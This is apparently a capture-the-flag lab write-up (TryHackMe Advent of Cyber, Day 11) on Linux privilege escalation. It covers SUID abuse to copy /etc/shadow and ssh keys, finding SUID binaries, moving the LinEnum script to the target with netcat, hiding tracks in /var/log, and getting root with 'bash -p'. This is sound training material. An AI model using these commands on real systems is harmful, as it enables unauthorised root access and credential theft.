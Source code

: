 # Day11 - The Rogue Gnome : Prelude

When accessing to a new machine, we should check __whoami__ giving us the name of the account we are in, and __echo $0__ to see what kind of shell we're using.

## The PrivEsc Checklist :

 - Determining the kernel of the machine (kernel exploitation such as DirtyCow)
 - Locating other services running of applications installed that may be abusable (SUID & out of date software)
 - Looking for automated scripts like backup scripts (crontabs)
 - Credentials (user account, application config files...)
 - Misconfigured file and directory permissions
 [This blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) and [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation) are wonderful cheatsheets for privEsc.

## What is SUID :

SUID is simply a permission added to an executable that does a similar thing as sudo. However, instead, allows users to run the executable as whoever owns it as demonstrated below:

|Filename|File owner|User who is executing the file|User that the file is executed as|
|--------|----------|------------------------------|---------------------------------|
|ex1|root|cmnatic|root|
|ex2|cnmatic|cmnatic|cnmatic|
|ex3|service|danny|service|

Suddenly with the introduction of SUID, users no longer have to be a sudoer to run an executable as root. This can be legitimately used to allow applications that specific privileges to run that another user can't have.

### How to abuse SUID's:

First, to use it normally : `chmod u+s <example of binary such as /usr/bin/cp>`. Now the `cp` is gonna be used as root, even if we aren't root !

This means we can copy protected files as weak files; some interesting examples would be :

- copying the content of other directories (bash history, ssh keys,...)
- copying the content of the __/root/__ directory ! (/root/flag.txt :-))
- copy the __/etc/passwd__ and __/etc/shadow__ files for password cracking

We can find executables with SUID permissions by using 
`
find / -perm -u=s -type f 2>/dev/null
`

## LinEnum - does the enumeration work for us

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

We have to turn our machine into a web server using python to serve the **LinEnum.sh** script to be downloaded onto the target machine. __In the same dir as the LinEnum.sh file__, we type `python3 -m http.server 8080`.

![nc-listener](https://github.com/oghobhainn/TryHackMe/blob/main/images/adventofcyber/day11/python-webserv.png)
Then we have to setup __netcat__ on the vulnerable instance to listen for an incoming file `nc -l -p 1337 > LinEnum.sh`.

![nc-listener](https://github.com/oghobhainn/TryHackMe/blob/main/images/adventofcyber/day11/nc-vuln.png)
And setup __netcat__ on our own machine to send a file `nc -w -3 $ip 1337 < LinEnum.sh`.

![nc-listener](https://github.com/oghobhainn/TryHackMe/blob/main/images/adventofcyber/day11/nv-own.png)
Adding the permission to the **LinENum.sh** file on the vulnerable instance `chmode +x 	LinEnum.sh`.

And finally execute the script on the vulerable machine.

## Covering our tracks

On Debian and Ubuntu, the majority of the actions concerned here (logging in, authentification, oploading/downloading files, ...) are logged by services and the system itself. Majority of these are in the `/var/log` directory and require admin priv. Can be `/var/log/auth.log`(attempted logins for SSH, changes too or logging in as systems users), `/var/log/syslog`(system events such as firewall alerts) ,...

## Challenge !

first we ssh onto the vulnerable machine `ssh cnmatic@$ip

by looking at SUID files `find / -perm -u=s -type f 2>/dev/null`, we see that (amongst others), there is the `bash` command. By typng `bash -p`, we get root ! easy as go. We know that by checking vulns on [GTFObins](https://gtfobins.github.io/).

